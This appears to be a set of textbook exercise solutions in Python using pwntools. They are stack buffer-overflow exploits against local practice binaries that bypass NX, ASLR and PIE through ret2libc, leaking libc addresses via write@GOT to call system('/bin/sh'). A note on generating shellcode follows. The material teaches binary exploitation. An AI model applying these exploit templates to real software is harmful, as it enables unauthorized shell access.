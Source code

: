 ```python
# 4.3.3节，绕过nx
from pwn import *
io = process("./b.out")#导入本地进程
# 构造payload
payload="a"*100+p32(system_addr)+p32(ret)+p32(binsh_addr)
io.send(payload)#向目标程序发送paylaod
io.interactive()#等待目标程序返回交互
```
```python
# 4.4.4,完全开启aslr，关闭:pie、栈cookie、nx
from pwn import *
io=process('./a.out')
elf=ELF('./a.out')
#libc=ELF('./libc.so.6')
libc=ELF('/lib32/libc.so.6')
vuln_func=0x0804843b
payload1="A"*140+p32(elf.sym['write'])+p32(vuln_func)+p32(1)+p32(elf.got['write'])+p32(4)
io.send(payload1)
write_addr=u32(io.recv(4))
system_addr=write_addr-libc.sym['write']+libc.sym['system']
binsh_addr=write_addr-libc.sym['write']+next(libc.search('/bin/sh'))
payload2="B"*140+p32(system_addr)+p32(vuln_func)+p32(binsh_addr)
io.send(payload2)
io.interactive()
```
```python
# 4.4.4,完全开启aslr,pie、关闭：栈cookie、nx
from pwn import*
io=process('./_pie_fpie_print_main.out')
elf=ELF('./_pie_fpie_print_main.out')
libc=ELF('/lib32/libc.so.6')
main_addr=int(io.recvline(),16)
base_addr=main_addr-elf.sym['main']
vuln_func=base_addr+elf.sym['vuln_func']
plt_write=base_addr+elf.plt['write']
got_write=base_addr+elf.got['write']
ebx=base_addr+0x2000
payload1="A"*132+p32(ebx)+"AAAA"+p32(plt_write)+p32(vuln_func)+p32(1)+p32(got_write)+p32(4)
io.send(payload1)
write_addr=u32(io.recv())
system_addr=write_addr-libc.sym['write']+libc.sym['system']
binsh_addr=write_addr-libc.sym['write']+next(libc.search('/bin/sh'))
payload2="A"*132+p32(ebx)+"AAAA"+p32(system_addr)+p32(vuln_func)+p32(binsh_addr)
#this payload2 is also work
#payload2="A"*140+p32(system_addr)+p32(vuln_func)+p32(binsh_addr)
io.send(payload2)
io.interactive()
```
- 调用shellcraft模块直接生成指定架构下的shellcode
  - shellcode=shellcraft.i386.sh()